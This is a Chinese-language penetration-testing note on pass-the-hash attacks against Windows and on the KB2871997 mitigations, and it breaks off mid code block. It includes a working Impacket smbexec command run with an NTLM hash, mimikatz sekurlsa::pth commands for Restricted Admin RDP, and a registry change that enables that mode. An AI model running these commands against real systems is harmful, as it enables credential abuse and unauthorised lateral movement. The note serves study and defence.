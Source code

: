# Impacket

```bash
python smbexec.py administrator@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
```

# KB2871997补丁

微软为了缓解PTH攻击，为Windows 7, Windows 8, Windows Server 2008R2, and Windows Server 2012发布了[KB2871997](https://msrc.microsoft.com/blog/2014/06/an-overview-of-kb2871997/)补丁，内容如下
>1. 支持**Protected Users**用户组
>    - 位于该组内的用户只能通过k**erberos协议**进行身份认证，拒绝**NTLM, Digest Authentication, or CredSSP**。在windows 8中密码将不会被缓存
>    - kerberos协议只能使用强度较高的AES算法，不使用较弱的DES和RC4算法进行身份预认证
>    - 不能约束性委派和非约束委派

由于该补丁拒绝了NTLM协议进行身份认证，所以无法进行PTH。如果能获取到账户的AES hash，可以通过kerberos协议申请票据

> 2. Restricted Admin RDP
>    - 从windows8.1 和windows server 2012 R2起，微软引入了Restricted Admin RDP模式，它遵循最小权限原则
>    - 该模式对Administrators组内的用户起作用，而对Remote Desktop Users不起作用
>    - 在该模式提出之前，RDP登入需要用户提供用户名和密码之后才能获得交互式访问权限，此时用户的凭据会被存储在内存当中，如果机器沦陷，用户的凭据可以被获取
>    - 该模式之后，用户可以用现有的登录令牌来RDP，确保在目标主机上不留下用户的凭据

这一条是针对管理员组的用户，并没有对PTH进行防护，可以利用以下方式RDP
:::tip
需要用户是目标主机的本地管理员组中的用户才能登入
:::

```bash
mimikatz.exe
# privilege::debug
# sekurlsa::pth /user:administrator /domain:10.0.0.133 /ntlm:c81ad28df9b2c069be535fd86434c03b /run:"mstsc.exe /restrictedAdmin"
```

可以使用下面的命令开启Restricted Admin RDP

```bash
#添加注册表，0开启，1关闭
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
#查看
reg query HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin
```

> 3. LSA 凭据清除和其他改变
>    - 当用户退出登录的时候清除凭据，包括用户的明文密码，NT/LM password hash和 Kerberos TGT/Session key
>    - 新的SID
>       1. **LOCAL_ACCOUNT** – 任何本地用户会继承这个SID
>       2. **LOCAL_ACCOUNT_AND_MEMBER_OF_ADMINISTRATORS_GROUP** –任何管理员组内的用户会继承这个SID
>       管理员可以通过组策略设置**拒绝从网络上访问这台计算机**和**拒绝通过远程桌面服务登录**来保护用户
>       ```
>       win + r 打开gpedit.msc
>       计算机配置->windows设置->安全设置->本地策略->用户权限分配
>       可以找到上面两个设置，添加需要保护的账户即可
>       ```
>    - 从LSASS移除明文凭据
>这个更新阻止了LSASS中的每一个SSP存储用户的明文凭据，WDigest除外。为了正常使用登录功能，NT hash 和Kerberos TGT/Session key仍将继续存储在内存中。如果要[关闭WDigest存储凭据的功能](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649)通过设置注册表
>
>       ```bash
>       #0不存储，1存储